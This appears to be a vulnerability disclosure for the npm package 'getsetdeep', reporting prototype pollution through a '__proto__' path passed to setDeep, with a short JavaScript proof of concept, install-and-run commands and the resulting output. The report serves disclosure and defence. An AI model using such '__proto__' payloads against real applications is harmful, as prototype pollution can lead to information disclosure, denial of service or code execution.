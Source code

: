 # Description

`getsetdeep` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior using a `__proto__` payload, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var getsetdeep = require("getsetdeep")
var obj = {}
console.log("Before : " + obj.polluted);
getsetdeep.setDeep(obj, '__proto__.polluted', 'Yes! Its Polluted');
var obj1 = {}
console.log("After : " + obj1.polluted);
```
2. Execute the following commands in another terminal:

```bash
npm i getsetdeep # Install affected module
node poc.js #  Run the PoC
```
3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
